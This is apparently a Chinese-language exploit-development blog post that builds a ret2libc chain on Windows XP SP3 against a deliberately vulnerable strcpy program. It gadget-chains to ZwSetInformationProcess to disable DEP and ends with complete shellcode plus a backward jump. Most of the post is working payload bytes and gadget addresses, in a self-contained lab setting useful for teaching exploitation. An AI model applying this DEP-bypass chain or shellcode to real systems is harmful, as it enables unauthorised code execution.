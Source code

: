 ```yaml
---
layout:		post
title:		Ret2Libc实战之利用ZwSetInformationProcess
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H。
<!-- more -->


### 0x00 前期准备

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

void test()
{
	char tt[176];
	__asm int 3
	strcpy(tt, shellcode);
}

int main()
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	test();

	return 0;
}
```


### 0x01 分析栈布局

运行*.exe, OllyDbg在int 3断点断下, shellcode起始地址0x0012fdfc, 返回地址0x0012feb0

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x00.png)
![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x01.png)

Plugins->OllyFindAddr->Disable DEP, 检索关闭DEP的入口0x7c93cd24, 再找到一条"mov eax,1 retn"指令0x7c92e252

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x02.png)

0x0012feb0-0x0012fdfc=180 byte, 组织188 byte的shellcode

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

goto 0x7c93cd24下断, F9直接运行, 在这里捕捉到异常(写入了一个无效地址)

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x03.png)
![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x04.png)

这是由于覆盖掉了ebp, retn时将0x90909090 pop到ebp, 需要将ebp定位到一个可写地址

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x04.png)

用OllyFindAddr检索"545D"指令, 在0x5d1d8b85找到一个"push esp pop ebp retn"指令

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x05.png)

但造成retn后, esp位于高地址, 当有入栈操作时会覆盖掉传递的参数, shellcode作如下修改

```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

发现shellcode尾部的关键跳会被覆盖掉, 传入参数能关闭DEP, 但失去跳转到shellcode入口的机会

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x06.png)
![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x07.png)

利用一条retn 0x28指令(0x7c974a19), 让esp增大, 保证不会干扰到shellcode

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x08.png)

shellcode作如下修改

```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

OD附加上去调试, 关闭了DEP后来到这里, 再来一条jmp esp就能跳回栈区

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x09.png)
![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x0a.png)

在0x7dc5c1b4找到一条jmp esp指令, 继续修改shellcode

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x0b.png)

```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\xb4\xc1\xc5\x7d"		# jmp esp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

OD再次附加调试, 现在成功跳回栈区0x0012fec4处, 0x0012fdfc-0x0012fec4=-200

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x0c.png)

再回跳205 byte(包括跳转指令的5 byte)即可跳到shellcode, 给出完整的shellcode(208 byte)

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# payload 113 byte
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"			# 67 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\xb4\xc1\xc5\x7d"		# jmp esp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
"\xe9\x33\xff\xff\xff\x90\x90\x90";		# 回跳
```

OD附加上去调试, 现在栈区布局如下

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x0d.png)

直接F9运行, pwn~

![](/assets/img/exploit/2017-10-04-windows-xp-disable-dep/0x0e.png)
